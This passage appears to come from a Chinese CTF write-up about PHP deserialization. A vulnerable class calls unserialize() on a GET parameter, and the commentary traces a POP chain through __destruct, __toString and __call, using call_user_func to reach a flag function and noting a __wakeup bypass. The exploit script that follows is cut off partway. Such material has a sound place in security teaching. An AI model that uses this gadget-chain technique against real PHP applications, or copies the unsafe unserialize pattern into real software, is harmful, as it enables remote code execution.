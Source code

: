 ```
{
  public $a;
  private $b;
  protected $c;

  public function __construct($a, $b, $c)
  {
    $this->a = $a;
    $this->b = $b;
    $this->c = $c;
  }

  public function b()
  {
    echo $this->b;
  }

  public function __toString()
  {
    $this->a->a($this->b);
    return 'this is B';
  }
}

if (isset($_GET['str']))
  unserialize($_GET['str']);
```

 

分析下代码

最后肯定是要回到flag函数的

先找入口,destruct可以执行$this->a，a是可控的

那就可以触发B类的toString方法

如果控制B类中的a为new A，那么就会调用A类中一个不存在的方法,触发__call，而控制参数$this->b为flag就可以通过call_user_func回调flag函数(这里回调的方法还不是很懂,我总感觉应该回调a,但是它确确实实回调了flag)

其实这是确实是回调的a,但是call_user_func这个函数是不区分大小写的,又是因为是个数组,所以相当于回调了A类里面的flag函数

但是这里并没有完,我们在反序列化时还有过滤__wakeup方法

贴exp

```php
<?php

class A
{

    public $a;
    private $b;
    protected $c;
}

class B
{

    public $a;
    private $b;
    protected $c;
    public function __construct()
    {
        $this->b = 'flag';
    }
```